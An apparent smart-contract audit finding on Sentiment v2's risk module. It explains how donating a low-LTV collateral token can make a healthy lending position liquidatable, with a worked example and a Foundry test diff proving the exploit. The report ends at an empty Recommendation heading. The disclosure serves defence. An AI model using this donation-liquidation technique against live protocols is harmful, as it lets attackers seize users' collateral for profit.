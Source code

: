 Flat Tawny Haddock

High

# Formula used for minimum required collateral value is flawed

## Summary
The formula that is used to calculate the minimum required collateral value for a position is flawed and allows attackers to liquidate user's by donating assets

## Vulnerability Detail
A position is considered non-healthy ie. liquidateable when the collateral value is less than `minReqAssetValue`

[link](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L67-L85)
```solidity
    function isPositionHealthy(address position) public view returns (bool) {
        
        ....

        uint256 minReqAssetValue =
            _getMinReqAssetValue(debtPools, debtValueForPool, positionAssets, positionAssetWeight, position);
        return totalAssetValue >= minReqAssetValue; // (non-zero debt, non-zero assets)
    }
```

Where `minReqAssetValue` is calculated as follows:
[link](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L272)
```solidity
    function _getMinReqAssetValue(
        uint256[] memory debtPools,
        uint256[] memory debtValuleForPool,
        address[] memory positionAssets,
        uint256[] memory wt,
        address position
    ) internal view returns (uint256) {
        
        ....

        for (uint256 i; i < debtPoolsLength; ++i) {
            for (uint256 j; j < positionAssetsLength; ++j) {
                
                ....

                minReqAssetValue += debtValuleForPool[i].mulDiv(wt[j], ltv, Math.Rounding.Up);
            }
        }
```

Here `wt[j]` is the weight of the collateral token by value ie. if in a pool there is 1 worth of collateral A and 1 worth of collateral B, then both have weights as 0.5,0.5. `ltv` is the loan to value ratio. 

This method of calculation of `minReqAssetValue` is flawed as it can allow an attacker to donate and increase balance of the lower ltv token causing higher portion of the debt to be assigned to the lower ltv token which can increase the minReqAssetValue in a way such that it is not covered by the donated amount

Eg:
all tokens prices = 1
ltv a = 20%, ltv b = 80%
initial collateral amounts: 40a, 160b (2:8)
debt amount = 100
currently healthy position,
minReqAssetValue = (100 * 0.2 / 0.2) + (100 * 0.8 / 0.8) == 200 == collateral value

attacker donates 1 token a
now token weights = 41:160
now minReqAssetValue = (100 * (41/201) / 0.2 ) + (100 * (160/201) / 0.8) == 201.492537313 while collateral value == 200 + 1 == 201

hence liquidateable

attacker can now liquidate the position making a profit with the 10% liquidation discount

### POC Code
Apply the following diff and run `testHash_LiquidatePositionByDonation`. It is asserted that a pool that was healthy can be made liquidateable by an attacker by making a donation which will be covered by their profit

```diff
diff --git a/protocol-v2/test/integration/LiquidationTest.t.sol b/protocol-v2/test/integration/LiquidationTest.t.sol
index beaca63..4dcd863 100644
--- a/protocol-v2/test/integration/LiquidationTest.t.sol
+++ b/protocol-v2/test/integration/LiquidationTest.t.sol
@@ -33,9 +33,9 @@ contract LiquidationTest is BaseTest {
         vm.stopPrank();
 
         vm.startPrank(poolOwner);
-        riskEngine.requestLtvUpdate(fixedRatePool, address(asset3), 0.5e18); // 2x lev
+        riskEngine.requestLtvUpdate(fixedRatePool, address(asset3), 0.8e18); // 2x lev
         riskEngine.acceptLtvUpdate(fixedRatePool, address(asset3));
-        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), 0.5e18); // 2x lev
+        riskEngine.requestLtvUpdate(fixedRatePool, address(asset2), 0.2e18); // 2x lev
         riskEngine.acceptLtvUpdate(fixedRatePool, address(asset2));
         vm.stopPrank();
 
@@ -48,6 +48,43 @@ contract LiquidationTest is BaseTest {
         vm.stopPrank();
     }
 
+    function testHash_LiquidatePositionByDonation() public {
+        // asset 1,2,3 price = 1 and asset 2 ltv = 0.2 and asset 3 ltv = 0.8
+        // borrow 100 debt and put asset2:asset3 collateral value in 2:8
+        // setup tokens
+        {
+            uint256 asset2CollateralAmount = 40e18;
+            uint256 asset3CollateralAmount = 160e18;
+            asset2.mint(user, asset2CollateralAmount);
+            asset3.mint(user, asset3CollateralAmount);
+            vm.startPrank(user);
+            asset2.approve(address(positionManager), asset2CollateralAmount);
+            asset3.approve(address(positionManager), asset3CollateralAmount);
+
+            Action[] memory actions = new Action[](6);
+            (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
+            actions[1] = deposit(address(asset2), asset2CollateralAmount);
+            actions[2] = deposit(address(asset3), asset3CollateralAmount);
+            actions[3] = addToken(address(asset2));
+            actions[4] = addToken(address(asset3));
+            actions[5] = borrow(fixedRatePool, 100e18);
+            positionManager.processBatch(position, actions);
+            vm.stopPrank();
+        }
+
+        assertTrue(riskEngine.isPositionHealthy(position));
+
+        //attacker deposits 1 more asset2, makes the position liquidateable and liquidates the position
+        address attacker = address(0xd33d33);
+        asset2.mint(attacker,1e18);
+
+        vm.prank(attacker);
+        asset2.transfer(position,1e18);
+        assertTrue(!riskEngine.isPositionHealthy(position));
+
+        // attacker can liquidate 100e18 debt for a liquidation profit of 10% making a net profit
+    }
+
     function testLiquidate() public {
         vm.startPrank(user);
         asset2.approve(address(positionManager), 1e18);

```

## Impact
User's can be liquidated by attackers even when they have maintained enough collateral value

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/RiskModule.sol#L272

## Tool used
Manual Review

## Recommendation 